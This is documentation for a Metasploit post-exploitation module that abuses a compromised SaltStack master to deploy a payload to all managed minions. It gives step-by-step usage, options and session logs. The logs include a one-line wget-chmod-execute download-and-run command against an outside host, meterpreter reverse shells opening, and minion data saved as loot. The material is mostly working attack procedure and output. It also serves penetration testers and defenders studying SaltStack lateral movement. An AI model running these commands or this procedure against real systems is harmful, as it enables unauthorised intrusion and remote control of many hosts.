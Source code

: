 ## Vulnerable Application

This exploit module uses saltstack salt to deploy a payload and run it
on all targets which have been selected (default all).
Currently only works against nix targets.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Get an initial shell on the box
1. Do: `use exploit/linux/local/saltstack_salt_minion_deployer`
1. Do: `set session [#]`
1. Do: `run`
1. You should get sessions on all the targeted hosts

## Options

### SALT

Location of salt-master executable if not in a standard location. This is added to a list of default locations
which includes `/usr/bin/salt-master`, `/usr/bin/local/salt-master`. Defaults to ``

### MINIONS

Which minions to target. Defaults to `*`

## WritableDir

A directory on the compromised host we can write our payload to. Defaults to `/tmp`

## TargetWritableDir

A directory on the target hosts we can write and execute our payload to. Defaults to `/tmp`

## CALCULATE

This will calculate how many hosts may be exploitable by using Ansible's ping command.

### ListenerTimeout

How many seconds to wait after executing the payload for hosts to call back. Defaults to `60`

## Scenarios

### Minion 3002.2 on Ubuntu 20.04

Get initial access to the system. In this case, root was required to execute salt commands successfully.

```
resource (salt_deploy.rb)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (salt_deploy.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (salt_deploy.rb)> set srvport 8181
srvport => 8181
resource (salt_deploy.rb)> set target 7
target => 7
resource (salt_deploy.rb)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (salt_deploy.rb)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Using URL: http://1.1.1.1:8181/hvy2Ol
[*] Server started.
[*] Run the following command on the target machine:
wget -qO exVJILEV --no-check-certificate http://1.1.1.1:8181/hvy2Ol; chmod +x exVJILEV; ./exVJILEV& disown
[*] 3.3.3.3    web_delivery - Delivering Payload (250 bytes)
[*] Sending stage (3045380 bytes) to 3.3.3.3
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 3.3.3.3:45200) at 2023-12-16 09:59:02 -0500
```

```
resource (salt_deploy.rb)> use exploit/linux/local/saltstack_salt_minion_deployer
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
resource (salt_deploy.rb)> set session 1
session => 1
resource (salt_deploy.rb)> set verbose true
verbose => true
resource (salt_deploy.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (salt_deploy.rb)> set lport 9996
lport => 9996
[msf](Jobs:1 Agents:0) exploit(linux/local/saltstack_salt_minion_deployer) > 

[msf](Jobs:1 Agents:1) exploit(linux/local/saltstack_salt_minion_deployer) > run
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/local/saltstack_salt_minion_deployer) > 
[*] Started reverse TCP handler on 1.1.1.1:9996 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] /tmp is writable, and salt-master executable found
[+] The target is vulnerable.
[*] Attempting to list minions
[*] minions:
- mac_minion
- salt-minion
- window-salt-minion
minions_denied: []
minions_pre: []
minions_rejected: []
[+] 3.3.3.3:45200 - minion file successfully retrieved and saved to /root/.msf4/loot/20231216100004_default_3.3.3.3_saltstack_minion_890818.yaml
[+] Minions List
============

 Status    Minion Name
 ------    -----------
 Accepted  mac_minion
 Accepted  salt-minion
 Accepted  window-salt-minion

[+] 3 minions were found accepted, and will attempt to execute payload. Waiting 10 seconds incase this isn't optimal.
[*] Writing '/tmp/E76Azw' (336 bytes) ...
[*] Copying payload to minions

[*] Executing payloads
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 2.2.2.2
[*] Meterpreter session 2 opened (1.1.1.1:9996 -> 2.2.2.2:36850) at 2023-12-16 10:00:46 -0500
```
